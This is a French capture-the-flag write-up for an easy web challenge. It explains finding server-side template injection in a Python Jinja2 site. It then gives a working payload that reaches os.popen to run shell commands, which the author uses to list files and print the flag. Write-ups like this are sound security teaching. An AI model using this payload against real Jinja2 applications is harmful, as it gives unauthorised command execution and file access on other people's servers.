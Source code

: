 

# Jungle Templating



- Category: `Web`
- Points: `100` => `100`
- Difficulty: Easy
- Solves: `293`


**Description**

>Challenge link : http://206.189.236.145:5000/

>N.B: There is no need to bruteforce anything.
>
> Auteur : Typhlos#9037
>

**Note**
-J'ai raté le first blood de ce challenge de peu en le flaggant en 4ème :( 

**Attachments**

- [`capture-reseau.pcapng`](https://drive.google.com/drive/folders/1MMs6CiIiBnEYUCaJyMGQqijCeW4oVdZj)

### :book: Introduction

**Overview**
 
Le site possède une unique fonctionnalité: 
  - Permettre de renter un nom
  - Retourner: Hi, nom

Je pense tout de suite a une SSTI est de fait si on donne comme nom {{1+1}} le site nous retourne Hi, 2


**Exploit**

On peut voir dans le code source que c'est un serveur python donc c'est une  SSTI avec Jinja2. Je vais chercher
internet un payload permettant d'executer des commandes bash. Merci a default de Root-Me pour son payload:
```{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('lacommande').read() }} ```

Grace a cette commande je commence par faire un ls et le serveur me retourne __pycache__ app.py flag. Après 
un effort mental considérable je déduis que le fichier qui nous intéresse et le fichier flag et je fait
```{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('cat flag').read() }} ```
pour que le serveur me retourne le flag:


BDSEC{Y3Y_7H1515_7H3_F146}





